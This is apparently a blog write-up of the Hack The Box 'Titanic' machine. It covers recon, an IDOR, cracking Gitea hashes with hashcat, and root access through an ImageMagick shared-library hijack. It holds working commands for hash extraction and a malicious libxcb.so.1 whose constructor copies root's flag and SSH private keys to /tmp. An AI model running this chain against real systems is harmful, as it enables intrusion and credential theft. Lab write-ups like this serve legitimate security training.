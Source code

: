 ```yaml
---
title: 【HTB Machine】Titanic
date: 2025-07-14
tags:
  - ctf
url: "/posts/HTB/Titanic/"
---
```


# Recon

```sh
nmap -sS -A -p- --min-rate 10000 -oN nmap.txt Remote_IP
```

![nmap](/images/HTB/Titanic/nmap.png)

```sh
echo 'Remote_IP titanic.htb' | sudo tee -a /etc/hosts
```

# Web on titanic.htb port 80

![web](/images/HTB/Titanic/web_on_port_80_1.png)

![web](/images/HTB/Titanic/web_on_port_80_2.png)

Burp 攔截封包

![post_catch](/images/HTB/Titanic/post_catch.png)

![catch2](/images/HTB/Titanic/catch2.png)

IDOR vulnerability

![IDOR](/images/HTB/Titanic/IDOR.png)

發現有個 `dev` subdomain

```sh
echo 'Remote_IP dev.titanic.htb' | sudo tee -a /etc/hosts
```

# Web on dev.titanic.htb

![gitea](/images/HTB/Titanic/gitea.png)

可以得到 source code

- gitea 設定檔

![app_ini](/images/HTB/Titanic/app_ini.png)

- SQLite 資料庫

![sqlite](/images/HTB/Titanic/sqlite.png)

需要先轉換一下格式

```sh
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo "$data" | cut -d '|' -f3); echo "${name}:sha256:${salt}:${digest}"; done | tee hashes.txt
```

hashcat 爆破

```sh
hashcat hashes.txt /usr/share/wordlists/rockyou.txt --user
```

得到 developer 密碼，登入 ssh

```sh
ssh developer@Remote_IP
cat ~/user.txt
```

# Privilege Escalation

```sh
$ ls /opt
app containerd scripts

$ ls /opt/scripts
identify_images.sh

$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

$ magick --version
Version: ImageMagick 7.1.1-35 ...
```

經搜尋後發現有個遠端程式碼執行漏洞

![magick](/images/HTB/Titanic/magick.png)

偷 root flag/ssh private key

```sh
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
> #include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cat /root/root.txt > /tmp/root.txt");
    system("cat /root/.ssh/* > /tmp/id_rsa");
    exit(0);
}
> EOF
$ cd /opt/app/static/assets/images
$ cp entertainment.jpg root.jpg
$ rm root.jpg
$ cp entertainment.jpg root.jpg
$ cat /tmp/root.txt
{ROOT_FLAG_HERE}
```
